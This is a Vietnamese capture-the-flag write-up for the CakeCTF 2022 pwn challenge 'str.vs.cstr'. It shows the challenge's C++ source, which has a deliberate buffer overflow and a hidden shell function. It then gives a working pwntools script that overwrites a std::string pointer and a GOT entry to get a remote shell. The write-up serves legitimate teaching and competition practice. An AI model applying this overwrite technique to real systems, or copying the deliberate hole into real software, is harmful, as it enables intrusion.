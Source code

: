 # 🎂str.vs.cstr (Pwn)

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Cheksec </p></figcaption></figure>

Bài này đã đưa sẵn mã nguồn để ta phân tích

{% code title="main.cpp" lineNumbers="true" %}
```c
#include <array>
#include <iostream>

struct Test {
  Test() { std::fill(_c_str, _c_str + 0x20, 0); }
  char* c_str() { return _c_str; }
  std::string& str() { return _str; }

private:
  __attribute__((used))
  void call_me() {
    std::system("/bin/sh");
  }

  char _c_str[0x20];
  std::string _str;
};

int main() {
  Test test;

  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);

  std::cout << "1. set c_str" << std::endl
            << "2. get c_str" << std::endl
            << "3. set str" << std::endl
            << "4. get str" << std::endl;

  while (std::cin.good()) {
    int choice = 0;
    std::cout << "choice: ";
    std::cin >> choice;

    switch (choice) {
      case 1: // set c_str
        std::cout << "c_str: ";
        std::cin >> test.c_str();
        break;

      case 2: // get c_str
        std::cout << "c_str: " << test.c_str() << std::endl;
        break;

      case 3: // set str
        std::cout << "str: ";
        std::cin >> test.str();
        break;

      case 4: // get str
        std::cout << "str: " << test.str() << std::endl;
        break;

      default: // otherwise exit
        std::cout << "bye!" << std::endl;
        return 0;
    }
  }
  
  return 1;
}

```
{% endcode %}

Bài này khá dễ =]].  Nhìn qua ta thấy chỉ cần ghi đè \_str thành một địa chỉ nào đó( buffer overflow ở case 1 ) rồi ghi giá trị ở case 3.

<figure><img src="../../.gitbook/assets/2022-09-06-211409_402x203_scrot (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2022-09-06-211449_1870x944_scrot (1).png" alt=""><figcaption><p>ở đây mình ghi đè thành 0x4242424242424242 nên bị seg fault.</p></figcaption></figure>

Nhưng khoan, rút cuộc C++ string hoạt động như thế nào ? Sao lại chỉ cần ghi đè mỗi 8 byte đầu là được :thinking:

Sau nhiều lần search google và debug mình thấy...

<figure><img src="../../.gitbook/assets/2022-09-06-213404_666x524_scrot.png" alt=""><figcaption></figcaption></figure>

... 8 byte đầu sẽ là con trỏ đến mảng kí tự, 8 byte sau là size, 8 byte tiếp nữa là capacity ( đọc qua có vẻ là kích thước được cấp phát).

&#x20;Tiếp tục vào vấn đề, giờ mình sẽ chọn ghi đè char\_ostream\_got trỏ về call\_me.

{% code title="solve.py" lineNumbers="true" %}
```python
from pwn import *
from time import sleep
offset=0x20
call_me=0x00000000004016de
char_ostream_got=0x404048
e=ELF("./chall")
p=remote("pwn1.2022.cakectf.com",9003)
p.sendline(b"1")
sleep(1)
p.sendline(b"A"*offset+p64(char_ostream_got))
sleep(1)
p.sendline(b"3")
sleep(1)
p.sendline(p64(call_me))
p.interactive()

```
{% endcode %}

<figure><img src="../../.gitbook/assets/2022-09-06-214126_690x417_scrot.png" alt=""><figcaption></figcaption></figure>

Flag `CakeCTF{HW1: Remove "call_me" and solve it / HW2: Set PIE+RELRO and solve it}`

Hmm, có lẽ lúc nào đó mình sẽ thử làm như flag này nói :thinking:.

Vài trang để tìm hiểu về C++ string:

{% embed url="https://gcc.gnu.org/onlinedocs/gcc-12.2.0/libstdc++/api/a05666.html" %}

{% embed url="https://medium.com/obscure-system/understanding-storage-of-strings-in-c-part-1-stack-or-heap-98b15cded7ce" %}
